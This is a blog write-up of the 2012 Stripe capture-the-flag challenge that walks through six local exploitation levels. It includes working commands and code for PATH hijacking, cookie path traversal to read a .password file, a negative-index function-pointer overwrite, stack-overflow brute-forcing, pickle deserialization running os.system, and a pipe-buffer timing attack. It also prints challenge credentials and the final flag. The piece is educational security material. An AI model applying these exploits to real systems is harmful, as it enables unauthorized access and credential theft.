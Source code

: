 ```yaml
---
title: 'My Stripe CTF writeup'
date: 2012-03-01T00:00:00+02:00
tags: ["CTF", "writeup", "hacking"]
draft: false
---
```


Recently [Stripe](http://stri.pe/) (a startup trying to improve online payments
for web developers) put online [a fun CTF
challenge](https://stripe.com/blog/capture-the-flag) with simple security
exercises. Now that the challenge is done and the CTF is offline, I wanted to
share my solutions with people who were interested in this CTF but were not
able to solve it before the time limit.

Unfortunately I don't have the original source code of the exercises here. I
hope that the Stripe CTF organizers will publish those so that I can explain my
exploits better 🙂

<!--more-->

level01
-------

The given binary executes `system("date");` in order to display the
date. `system` looks into the `PATH` environment variable to locate binaries.
As an attacker, we can control `PATH` and make it point to a directory we
control which contains a `date` executable file. Here is my solution:

```
$ ln -s /bin/sh date
$ PATH=.:$PATH /levels/level01
```

level02
-------

The MOTD gives us some infos about this level: there is a web server running
on `localhost:80` which requires `Digest` authentication to access a PHP page
of which we have the source. I don't have the PHP source here but basically, it
checked for the existence of a cookie, and if it exists it displays the
contents of `"/var/www/$cookie_value"`. Cookies can be manipulated by the
attacker, so we can control the displayed file. Here is my solution:

```
$ curl -v -b user_details=../../home/level03/.password\
      -u level02:kxlVXUvzv --digest http://ctf.stri.pe/level02.php
```

level03
-------

Things get a little harder. Here, we have a C binary which basically does this:

{{< highlight c >}}
func_ptr table[4] = { func1, func2, func3, func4 };
int i = atoi(argv[1]);
if (i >= 4)
    error();
table[i]();
{{< / highlight >}}

This code does not check if `i` is negative. We can use that to dereference a
function pointer which was put in the stack later. It turns out we can control
some part of the stack (our `argv[2]` is copied in a stack buffer), so it is
just a matter of finding the right offset to control the function pointer
dereference and finding the right function on which to jump. Luckily, one of
the unused functions in the `level03` binary is a wrapper for `system(3)` and
we can use it to execute an arbitrary shell command. My solution:

```
/levels/level03 -27 "$(echo -ne "sh #\x5b\x87\x04\x08")"
```

Explanation: `-27` if the offset to 4 characters after the start of
the `argv[2]` copy, which contains our function pointer. The first 4 chars
of `argv[2]` are the arbitrary command: `sh` followed by the start of a comment
so that the `sh` binary does not freak out 🙂

level04
-------

The basic example of a stack overflow: `strcpy` of a user controlled string
without any length check. This should be trivial to exploit, but the presence
of `ASLR` makes it a bit harder: the stack location in memory is randomized,
making it hard to jump on our shellcode in the stack. To bypass that, there are
two solutions: either find a `jmp *%eax` at a fixed address in memory (for
example, in `.text`) and use it to overwrite the function return address so
that the `ret` returns to the shellcode, or be hardcore and bruteforce the
address. Both solutions were doable, and I went with the bruteforce because I
did not think about the `jmp *%eax` in the first place 😛 .

Using [stackbf2.c](http://gunslingerc0de.wordpress.com/2010/07/26/stackbf2-c/) with
the right parameters, exploiting this is trivial. Basically:

```
gcc brute.c
./a.out /levels/level04 1040
```

*Note: while I was writing this article, [w4kfu](http://blog.w4kfu.com/) gave
me a better solution: using `ulimit -s unlimited` makes the exploit possible
using a `ret2libc` technique. Food for thought 🙂*

level05
-------

For this level we have a "large" client/server Python application which uses a
server to process HTTP queries, put data in a queue so that it can be processed
by a worker, and get data back from the queue when it has been processed. The
worker waits for data to be put in the queue, uppercases the data, then puts it
back in the queue. The queue is basically a directory with "job" files in this
format:

```
type: %s; data: %s; job: %s
```

Data is unserialized using this code:

{{< highlight python >}}
parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
match = parser.match(serialized)
direction = match.group(1)
data = match.group(2)
job = pickle.loads(match.group(3))
{{< /highlight >}}

The trick is to see that you can basically get a user controlled string
for `match.group(3)` if you have `"; job: "` in your data. Python's pickle
module is not really done to unserialize user controlled stuff: it is very easy
to make it do what you want as soon as you control what it unserializes.

You can control how an object is serialized using its `__reduce__` method. I
basically created an object with `__reduce__` calling `os.system("cp
/home/level06/.password /tmp/1")`, injected it as a "job" object into the
queue, and got the password file copied where I wanted it.

level06
-------

When I first saw the code I immediately thought "this must be exploited through
a timing attack: count the number of characters written on `stderr` before data
is written on `stdout`". Unfortunately, it is not that easy: scheduling and
pipe bufferization completely breaks all forms of basic timing you could use. I
tried several methods to get the writes on `stderr` to block so that I could
more precisely detect when the write on `stdout` was done, but did not manage
it the first day.

Then, the day before the end of the CTF, I thought a bit more about it (I
really wanted a free t-shirt :D) and the solution came to my mind: prefilling
the pipe buffer so that we can control after how many characters it blocks.
That way we can see if the write on `stdout` was done before a certain number
of characters on `stderr`. That way we can bruteforce one character by one
character to get the full password to `level06`. Here is my exploit code which
checks if the start of the password matches `argv[1]`:

{{< highlight python >}}
import os
import signal
import sys

CONSTSIZE = 33
PIPEBUFSIZE = 65536

orig_guess = guess = sys.argv[1]

guess += "a" # because we need one more char to be sure

out, out_child = os.pipe()
err, err_child = os.pipe()
pid = os.fork()
if not pid:
    os.write(err_child, '\x00' * (65503 - len(orig_guess)))
    os.dup2(out_child, 1)
    os.dup2(err_child, 2)
    os.execl('/levels/level06', 'level06', '/home/the-flag/.password', guess)

def alarmed(*a):
    print 'Success: %r' % orig_guess
    os.kill(pid, 9)
    sys.exit(0)

signal.signal(signal.SIGALRM, alarmed)
signal.alarm(1)
os.read(out, 1)

print 'Fail: %r' % orig_guess
os.kill(pid, 9)
sys.exit(1)
{{< /highlight >}}

Final key: `theflagl0eFTtT5oi0nOTxO5`

Conclusion
----------

Overall, this was a really fun CTF organized by the folks at Stripe. It's
really too bad that it was not longer (if I did not get stuck on that last
exercise like an idiot I would have basically done it in 5 hours) with more
complex exercises (remote exploitation is always fun, reverse engineering too
🙂 ). Still, it's a great learning tool for people who are not really into
computer security and local exploitation, and I'd like to see more people do
that kind of stuff.
